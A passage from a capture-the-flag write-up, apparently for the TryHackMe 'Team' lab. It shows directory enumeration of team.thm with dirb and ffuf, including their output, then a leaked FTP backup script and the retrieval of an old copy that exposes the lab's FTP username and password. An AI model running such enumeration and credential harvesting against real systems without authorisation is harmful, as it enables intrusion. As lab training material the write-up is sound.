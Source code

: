 1) It's very sad with Directory Enumeration I haven't find nothing
2) Now, I add this line  "10.10.243.79   team.thm"  in the file: /etc/hosts
3) Then I search team.thm and I have find a new page
4) Ok, this "Web Application" it's very interesting, because now  I can do an Directory Enumeration:
┌──(kali㉿kali)-[~]
└─$ dirb http://team.thm/  /usr/share/wordlists/dirb/big.txt

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Tue Dec  6 14:31:10 2022
URL_BASE: http://team.thm/
WORDLIST_FILES: /usr/share/wordlists/dirb/big.txt

-----------------

GENERATED WORDS: 20458                                                         

---- Scanning URL: http://team.thm/ ----
==> DIRECTORY: http://team.thm/assets/                                                                                                                                                                                                    
==> DIRECTORY: http://team.thm/images/                                                                                                                                                                                                    
+ http://team.thm/robots.txt (CODE:200|SIZE:5)                                                                                                                                                                                            
==> DIRECTORY: http://team.thm/scripts/                                                                                                                                                                                                   
+ http://team.thm/server-status (CODE:403|SIZE:273)                                                                                                                                                                                       
                                                                                                                                                                                                                                          
---- Entering directory: http://team.thm/assets/ ----
==> DIRECTORY: http://team.thm/assets/css/                                                                                                                                                                                                
==> DIRECTORY: http://team.thm/assets/fonts/                                                                                                                                                                                              
==> DIRECTORY: http://team.thm/assets/js/   

5) Then with an other scan I find this directory:
-->ffuf -t 100 -u http://team.thm/scripts/FUZZ -w /usr/share/wordlists/dirb/big.txt -e .php,.html,.txt 

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.5.0 Kali Exclusive <3
________________________________________________

 :: Method           : GET
 :: URL              : http://team.thm/scripts/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirb/big.txt
 :: Extensions       : .php .html .txt 
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 100
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
________________________________________________
script.txt              [Status: 200, Size: 597, Words: 52, Lines: 22, Duration: 58ms]
:: Progress: [81876/81876] :: Job [1/1] :: 1801 req/sec :: Duration: [0:00:51] :: Errors: 0 ::


6) Content of script.txt:
```bash
#!/bin/bash
read -p "Enter Username: " REDACTED
read -sp "Enter Username Password: " REDACTED
echo
ftp_server="localhost"
ftp_username="$Username"
ftp_password="$Password"
mkdir /home/username/linux/source_folder
source_folder="/home/username/source_folder/"
cp -avr config* $source_folder
dest_folder="/home/username/linux/dest_folder/"
ftp -in $ftp_server <END_SCRIPT
quote USER $ftp_username
quote PASS $decrypt
cd $source_folder
!cd $dest_folder
mget -R *
quit

# Updated version of the script
# Note to self had to change the extension of the old "script" in this folder, as it has creds in
```


7) Thanks a this "script.txt"  I know that there is a directory script.old
8) I  go in this directory :  curl -i http://team.thm/scripts/script.old 
HTTP/1.1 200 OK
Date: Wed, 07 Dec 2022 19:40:57 GMT
Server: Apache/2.4.29 (Ubuntu)
Last-Modified: Fri, 15 Jan 2021 20:00:45 GMT
ETag: "1d2-5b8f5d3f2ee77"
Accept-Ranges: bytes
Content-Length: 466
Content-Type: application/x-trash

```bash
#!/bin/bash
read -p "Enter Username: " ftpuser
read -sp "Enter Username Password: " T3@m$h@r3
echo
ftp_server="localhost"
ftp_username="$Username"
ftp_password="$Password"
mkdir /home/username/linux/source_folder
source_folder="/home/username/source_folder/"
cp -avr config* $source_folder
dest_folder="/home/username/linux/dest_folder/"
ftp -in $ftp_server <<END_SCRIPT
quote USER $ftp_username
quote PASS $decrypt
cd $source_folder
!cd $dest_folder
mget -R *
quit

```

9) Now I know username and password of the ftp service: 
- Username: ftpuser
- Password: T3@m$h@r3